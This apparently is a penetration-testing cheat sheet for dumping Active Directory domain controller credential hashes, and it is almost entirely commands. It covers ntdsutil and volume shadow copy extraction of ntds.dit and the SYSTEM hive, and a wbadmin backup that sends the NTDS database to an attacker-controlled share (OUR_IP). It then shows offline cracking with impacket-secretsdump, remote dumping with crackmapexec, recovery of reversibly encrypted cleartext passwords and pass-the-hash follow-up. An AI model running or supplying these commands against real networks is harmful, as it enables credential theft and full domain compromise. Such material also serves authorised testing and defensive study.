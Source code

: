 # DUMP DOMAIN CONTROLLER HASHES LOCALLY WITH NTDSUTIL

## required files: 

### 1) C:\windows\NTDS\ntds.dit

### 2) C:\windows\system32\config\SYSTEM

### 3) C:\windows\system32\config\SECURITY

## Locating the ntds custom location: reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"

#### 1) powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#### 2) Transfer them to attacking machine

#### 3) python3 Impacket-Secretsdump.py -security /path/to/SECURITY -system /path/to/SYSTEM -ntds path/to/ntds.dit local

# DUMP DOMAIN CONTROLLER HASHES WITH WBADMIN

#### 1) Create an new user that maches the "force user" parameter in the /etc/samba/smb.conf file:

#### adduser smbuser

#### smbpasswd -a smbuser

#### sudo service smbd restart 

#### 2) net use k: \\OUR_IP\SHARE /user:smbuser smbpass (Mount the share)

#### 3) echo "Y" | wbadmin start backup -backuptarget:\\OUR_IP\SHARE -include:c:\windows\ntds (Backup NTDS folder)

#### 4) sbadmin get versions (Retrieve the version of the backup)

#### 5) echo "Y" | wbadmin start recovery -version:10/01/2020-14:23 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl (Restore the NTDS file, specifying the backup version)

#### 6) reg save HKLM\SYSTEM C:\system.hive (Export the system hive)

#### 7) cp ntds.dit \\OUR_IP\SHARE\NTDS.dit

#### 8) cp system.hive \\OUR_IP\\SHARE\system.hive

#### 9) impacket-secretsdump -ntds NTDS.dit -system system.hive LOCAL

#### 10) Do a Pass-the-Hash attack with wmiexec/smbexec/psexec or evil-winrm 

#### 11) PROFIT

# CRACKMAPEXEC

#### 1) crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds

#### 2) crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi

#### 3) crackmapexec smb 10.10.0.202 -u username -p password --ntds vss

# VOLUME SHADOW COPY (VSS)

#### 1) vssadmin create shadow /for=C:

#### 2) copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy

#### 3) copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy

# NTDS Reversible Encryption

### UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED (0x00000080), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

### The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin. This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

#### 1) List users with "Store passwords using reversible encryption" enabled

 - Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

### The password retrieval is already handled by SecureAuthCorp/secretsdump.py and mimikatz, it will be displayed as CLEARTEXT.

